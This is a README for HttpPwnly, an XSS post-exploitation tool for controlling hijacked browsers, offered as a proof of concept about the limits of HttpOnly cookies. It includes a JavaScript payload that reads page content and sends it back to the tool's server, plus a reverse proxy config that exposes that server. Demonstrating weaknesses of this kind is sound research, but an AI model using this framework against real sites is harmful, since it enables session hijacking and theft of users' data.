 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using caddy (https://caddyserver.com/) which is a simple but powerful web server written in golang. This is a working caddy config file:
```
0.0.0.0:443 { #replace 0.0.0.0 with your domain name. Let's Encrypt will handle the rest
proxy / localhost:5000 {
  websocket
  transparent
}
}

0.0.0.0:80 { #replace 0.0.0.0 with your domain name.
proxy / localhost:5000 {
  websocket
  transparent
}
}
```
